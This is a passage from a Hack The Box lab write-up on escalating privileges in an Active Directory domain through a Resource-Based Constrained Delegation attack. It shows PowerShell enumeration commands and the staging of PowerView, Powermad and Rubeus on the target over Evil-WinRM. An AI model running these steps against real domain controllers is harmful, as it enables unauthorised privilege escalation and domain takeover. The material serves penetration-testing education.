 The Linux Abuse tab shows that we can execute **Resource-Based Constrained Delegation (RBCD)**

This means that we can add a computer under our control to the domain. Then, by acting on behalf of the DC we van request Kerberos tickets for the computer. This way we can get high privileged user on the domain. 

So, from out enumeration we know that the `support` user is member of the `Authenticated Users`  and the`Shared Support Accounts` group. Also `Shared Support Accounts` has the `GenericAll` privileges over the domain controller (`dc.support.htb`). 

Check the `ms-ds-machineaccountquota` attribute: 

`Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota`

<img src='/images/HTB_Support/afbeelding 19.png'>

This shows that 10 computers can be in the domain.

Next, check if the `msds-allowedtoactonbehalfofotheridentity` attribute is empty. For this we need the PowerView module for PowerShell: https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

Upload this file to the server via Evil-WinRM:

`upload PowerView.ps1` 

Import the file on the remote host: `. ./PowerView.ps1` 

Now, use `Get-DomainComputer` to query the information: `Get-DomainComputer DC | select name, msds-allowedtoactonbehalfofotheridentity` 

<img src='/images/HTB_Support/afbeelding 20.png'>

Alright, we can perform the RBCD attack. We need the PowerMad and Rubeus tool:

[https://github.com/Kevin-Robertson/Powermad](https://github.com/Kevin-Robertson/Powermad)

[https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

Download and upload these using Evil-WinRM as before:

`git clone https://github.com/Kevin-Robertson/Powermad.git`

`git clone https://github.com/GhostPack/Rubeus.git` 

On the remote host: `upload Powermad` 

`upload Rubeus` 

Go in the `/Powermad` dir and Import PowerMad: `. .\Powermad.ps1` 
